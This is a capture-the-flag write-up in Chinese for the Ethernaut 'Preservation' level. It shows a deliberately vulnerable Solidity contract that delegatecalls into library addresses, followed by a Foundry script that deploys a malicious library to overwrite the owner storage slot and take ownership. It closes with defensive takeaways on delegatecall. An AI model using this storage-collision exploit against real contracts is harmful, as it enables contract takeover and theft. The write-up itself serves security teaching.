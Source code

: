 # Ethernaut CTF Writeup

## Level 16 Preservation

> 題目: https://ethernaut.openzeppelin.com/level/0x35b28CB86846382Aa6217283F12C13657FF0110B

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

過關條件: 

- 此智能合約利用一個函式庫來儲存兩個不同時區的兩個不同時間。 
- 建構函數會為每個要儲存的時間創建兩個庫實例。 
- 本關卡的目標是獲得該合約的所有權。

解法：

- 部署一個惡意合約: 創建一個類似 `LibraryContract` 的惡意合約，該合約的 `setTime` 函數會修改 `owner` 變量。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Preservation, LibraryContract} from "../src/level16/Preservation.sol";

contract MaliciousContract {
    address public _timeZone1Library;  // slot 0
    address public _timeZone2Library;  // slot 1
    address public owner;              // slot 2

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}

contract Attack is Script {
    Preservation public target;
    MaliciousContract public malicious;
   
    function run() public {
        vm.startBroadcast();

        target = Preservation(payable(0x04e3970206f92baf0B8556B62Bd1c847d6906035));
        malicious = new MaliciousContract();
        console.log(target.owner());
        target.setFirstTime(uint256(uint160(address(malicious))));
        target.setFirstTime(1);
        console.log(target.owner());

        vm.stopBroadcast();
    }
}

```

Takeaways:

- 使用 delegatecall 調用庫可能存在風險
- 應該使用 library 關鍵字來構建庫，因為它可以防止庫存儲和訪問狀態變量
